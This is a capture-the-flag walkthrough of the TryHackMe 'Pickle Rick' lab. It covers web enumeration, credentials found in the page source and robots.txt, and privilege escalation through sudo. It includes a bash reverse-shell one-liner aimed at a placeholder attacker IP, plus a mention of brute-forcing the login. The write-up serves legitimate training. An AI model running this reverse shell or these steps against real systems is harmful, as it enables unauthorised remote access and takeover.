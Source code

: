 [Room link](https://tryhackme.com/room/picklerick)

Fairly easy CTF room that took me a bit on first try, on second try it only take a few minutes.

Reconnaissance (Passive and Active):
1. Use Nmap and optionally other methods to investigate provided machine IP.
2. Access the webpage upon discovering that port 80 is open, you're greeted with main page, try checking the source page as it contains a valuable hint (Username)
3. Use Gobuster directory mode in an attempt to discover hidden directories (in my case it didn't help much)
4. Use Nikto for further web enumeration (Using this I discovered `robots.txt` and `login.php` pages)
5. (Optional, may work) I attempted to brute force the login page as I had the user account in my possession, however I was unsuccessful in my attempts and resorted to using the provided hint.
6. Inside directory `robots.txt`, you will find the password for that username.

**Exploitation**
1. Upon logging in, we are greeted with a RCE page. However, it appears to be limited or restricted on purpose (You are unable to perform commands such as `cat`), what we can do is generate a reverse shell for better control. I used this payload command `bash -c 'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1 &'` and I had a terminal running a listener.
2. Once successful, we can now navigate directories and read files. This is where you'll find your first key.
3. (Optional) Stabilizing the shell. I also used `rlwrap` for my listener so I can have better user accessibility.
4. (Unsure) At this point, I wasn't sure if I needed privilege escalation or not. I tried to look for binaries that are exploitable, but I slowed down and decided to continue with my current privileges. 
5. I found the second key by simply navigating the system and found it inside `/home/rick`

**Privilege Escalation**

6. At some point, I was given a clue that the last key is inside `/root` directory, I also found out that this root is inaccessible. However, there's a way around this by typing `sudo` before `cat` or `ls` one can assume this is your own way of gaining more privileges when attempting to execute commands in this scenario.
7. Retrieve final key.
